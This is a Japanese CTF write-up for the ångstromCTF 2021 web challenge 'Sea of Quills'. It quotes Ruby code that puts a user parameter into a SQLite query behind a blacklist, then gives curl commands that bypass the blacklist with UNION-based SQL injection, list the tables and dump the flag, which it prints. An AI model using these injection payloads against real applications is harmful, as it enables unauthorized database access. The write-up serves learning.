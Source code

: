 # Sea of Quills:Web:70pts
Come check out our finest [selection of quills](https://seaofquills.2021.chall.actf.co/)!  
[app.rb](app.rb)  

# Solution
アクセスすると羽ペンが販売されているサイトのようだ。  
パンダが密売されている。  
Home  
[site1.png](site/site1.png)  
/quillsで検索もできるようだ。  
Explore  
[site2.png](site/site2.png)  
配布されたapp.rbの検索部分のソースを見ると以下のような箇所がある。  
```ruby
~~~
	db = SQLite3::Database.new "quills.db"
	cols = params[:cols]
	lim = params[:limit]
	off = params[:offset]
	
	blacklist = ["-", "/", ";", "'", "\""]
	
	blacklist.each { |word|
		if cols.include? word
			return "beep boop sqli detected!"
		end
	}

	
	if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
		return "bad, no quills for you!"
	end

	@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
~~~
```
SQLインジェクションできるがブラックリストをバイパスする必要があるようだ。  
SQL文を無理やり終了はさせられないが、unionで繋げば正常になる。  
以下のようにquillsの個数を見てみる。  
```bash
$ curl -X POST https://seaofquills.2021.chall.actf.co/quills -d "limit=1000&offset=0&cols=count(*),1,2 from quills union select *"
~~~
                                        <img src="6" class="w3 h3">
                                <li class="pb5 pl3">1 <ul><li>2</li></ul></li><br />
~~~
```
imgに入るようで6つである。  
カラム数も表示されているもののみなようだ。  
次に他のテーブルの存在を確認する。  
SQLiteはsqlite_masterを覗いてやればよい。  
```bash
$ curl -X POST https://seaofquills.2021.chall.actf.co/quills -d "limit=1000&offset=0&cols=* from sqlite_master union select 1,2,3,4,5"
~~~
                                        <img src="1" class="w3 h3">
                                <li class="pb5 pl3">2 <ul><li>3</li></ul></li><br />

                                        <img src="table" class="w3 h3">
                                <li class="pb5 pl3">flagtable <ul><li>flagtable</li></ul></li><br />

                                        <img src="table" class="w3 h3">
                                <li class="pb5 pl3">quills <ul><li>quills</li></ul></li><br />
~~~
```
flagtableといういかにもなテーブルがある。  
以下のように中身を見る。  
```bash
$ curl -X POST https://seaofquills.2021.chall.actf.co/quills -d "limit=1000&offset=0&cols=* from flagtable union select 1"
~~~
                                        <img src="1" class="w3 h3">
                                <li class="pb5 pl3"> <ul><li></li></ul></li><br />

                                        <img src="actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}" class="w3 h3">
                                <li class="pb5 pl3"> <ul><li></li></ul></li><br />
~~~
```
flagが入っていた。  

## actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}